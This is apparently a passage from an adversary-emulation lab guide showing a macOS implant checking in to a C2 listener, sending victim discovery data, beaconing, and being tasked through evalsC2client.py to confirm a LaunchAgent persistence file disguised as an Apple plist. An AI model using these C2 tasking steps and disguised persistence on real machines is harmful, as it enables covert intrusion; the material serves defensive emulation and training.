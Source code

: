    ```zsh
      [INFO] 2023/08/18 17:08:13 Successfully added session.
      [SUCCESS] 2023/08/18 17:08:13 Successfully created session for implant b6dbd70f203515095d0ca8a5ecbb43f7.
      [INFO] 2023/08/18 17:08:13 Session created for implant b6dbd70f203515095d0ca8a5ecbb43f7
   ```

3. The macOS implant immediately sends collected discovery information about the victim
   machine which is printed out in the Listener terminal window.

   Expected Output:
   ```
      [INFO] 2023/08/18 17:08:13 Initial data received from implant:
      /Users/hpotter/Library/WebKit/
      1692378529
      hpotter
      Mac mini
      x86_64
      VISERION.COM10.15.7
      6-Core Intel Core i73.2 GHz
      32 GB
      6-Core Intel Core i7
   ```

4. The implant will continue to send an `OSX_heartbeat` until tasked.

   Expected Output:
   ```
      [INFO] 2023/08/18 17:17:45 Received beacon from existing implant b6dbd70f203515095d0ca8a5ecbb43f7.
      [INFO] 2023/08/18 17:17:45 No tasks available for UUID:  b6dbd70f203515095d0ca8a5ecbb43f7
   ```

 5. Verify the persistence file was dropped by the initial payloads.

    ```
    ./evalsC2client.py --set-task b6dbd70f203515095d0ca8a5ecbb43f7 '{"cmd":"OSX_run_cmd", "arg":"ls -la /Users/hpotter/Library/LaunchAgents/com.apple.launchpad"}'
    ```

    Expected Output:
    ```
       [SUCCESS] 2023/08/24 19:21:26 Successfully set task for session: b6dbd70f203515095d0ca8a5ecbb43f7
       [Task] 2023/08/24 19:21:32 total 8
       ...
       rw-r--r--  1 hpotter  VISERION\Domain Users  456 Aug 24 19:21 com.apple.launchpad.plist
       [SUCCESS] 2023/08/24 19:21:32 Successfully set task output.
    ```


<details><summary>Extra Credit - Execute Persistence</summary></details>

### 🔮 Reference Code & Reporting

<details><summary>Click to expand table</summary></details>

### 🔬 Blue Team Notes
